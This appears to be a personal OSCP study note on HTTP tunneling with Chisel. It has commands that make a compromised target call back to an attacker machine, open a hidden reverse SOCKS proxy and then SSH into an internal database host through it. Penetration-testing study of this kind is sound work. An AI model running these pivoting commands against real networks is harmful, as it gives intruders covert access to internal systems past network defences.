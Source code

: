 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/3-http-tunneling/"}
---
```


- Good for when only http is allowed
- Can't use SSH tunnel because of packet inspection
- Chisel creates a HTTP tunnel with SSH inside for encryption
- Chisel exists for all OSes and architectures which other tools like HTTPTunnel does not
- Chisel server listens on TCP port 1080 which is a SOCKS port

-----------
## Chisel HTTP Dynamic/Reverse Port Forwarding + SSH with SOCKS:
1. Get correct binary to target machine from https://github.com/jpillora/chisel/releases/
2. Start Chisel server on kali:
```
chisel server --port 8080 --reverse
```
3. Connect to server using Chisel client:
```
/tmp/chisel client 192.168.45.180:8080 R:socks > /dev/null 2>&1 &
```
4. Connect using SOCKS and win!
5. SSH with SOCKS using ncat:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
